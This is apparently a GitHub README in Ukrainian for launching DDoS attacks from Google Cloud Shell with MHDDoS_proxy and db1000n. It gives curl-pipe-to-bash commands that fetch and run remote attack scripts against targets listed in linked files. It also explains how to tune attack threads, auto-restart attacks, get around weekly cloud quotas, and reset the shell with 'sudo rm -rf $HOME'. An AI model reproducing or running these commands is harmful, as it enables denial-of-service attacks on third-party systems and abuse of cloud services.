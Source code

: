 ## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
~~**Layer4:**~~    
`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash`    
~~**Подвійна атака (Layer7+Layer4) розділений термінал (tmux):**~~    
`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash`    
.    
:white_check_mark: *Автоперезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди ` -s -- "кількість"`, наприклад:*    
`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 1200`
#
### Команда для встановлення та запуску db1000n
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• Дозволяється запускати до 4 терміналів на 1 акаунт але **рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
